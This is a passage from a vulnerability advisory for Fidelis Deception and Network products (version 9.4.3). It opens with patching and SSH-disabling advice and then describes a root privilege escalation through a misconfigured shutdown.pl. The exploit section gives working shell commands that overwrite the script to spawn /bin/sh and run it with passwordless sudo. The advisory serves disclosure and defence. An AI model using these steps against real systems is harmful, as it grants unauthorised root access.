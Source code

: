 It is recommended that affected Fidelis Deception or Fidelis Network users update their software to patch this vulnerability. It is also recommended for all users, regardless of if they were affected by this vulnerability, to disable shell access to their Fidelis products after initial configuration. 

If, for some reason, either of these is not possible, a mitigation for each vulnerable file is described in this document. To the extent of the author's testing, it appears that users will need to use one of these vulnerabilities to escalate privileges before they are able to apply the mitigations described, so updating Fidelis and disabling SSH is strongly recommended, instead.

## Shutdown.pl Privilege Escalation
**Tested on:**
* Fidelis CommandPost 9.4.3
* Fidelis Collector 9.4.3
* Fidelis (Internal VM) Sensor 9.4.3 

#### Summary:
Misconfigured ownership permissions on /FSS/bin/shutdown.pl allow the fidelis user to escalate privileges equivalent to the root user in multiple Fidelis products. By default, the sudoers configuration allows the fidelis user to execute /FSS/bin/shutdown.pl as the root user without prompting for a password. The file is owned by the fidelis user, allowing the fidelis user to arbitrarily modify the script and escalate privileges.

#### Exploit:
1. Change permissions to allow modification of the shutdown.pl file:
```bash
$ chmod 700 /FSS/bin/shutdown.pl
```
2. Change the file as needed to execute arbitrary code or, in this example, spawn a shell:
```bash
$ echo '#!/usr/bin/perl -w' > /FSS/bin/shutdown.pl
$ echo "exec '/bin/sh';" >> /FSS/bin/shutdown.pl
$ cat /FSS/bin/shutdown.pl
#!/usr/bin/perl -w
exec '/bin/sh';
```
3. Launch the file using the sudo command
```bash
$ sudo /FSS/bin/shutdown.pl
```

Screenshot showcasing vulnerability discovery and exploitation. Note the NOPASSWD line, which indicates that shutdown.pl is a potential candidate for privilege escalation:
